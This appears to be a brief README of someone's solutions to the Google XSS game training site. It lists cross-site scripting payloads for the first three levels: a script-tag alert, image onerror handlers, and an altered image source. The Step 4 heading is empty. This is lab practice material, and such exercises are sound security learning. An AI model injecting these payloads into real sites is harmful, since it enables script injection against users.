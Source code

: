 # Game-xss
My solutions for https://xss-game.appspot.com

##Step 1
<script>alert(1);</script>
##Step 2
<img src="forbidden" onerror="alert('1')" />
##Step 3
Replace
<img src="/static/level3/cloud3.jpg"> to
<img src="/static/level3/#6.jpg" onerror="alert(1)">
##Step 4

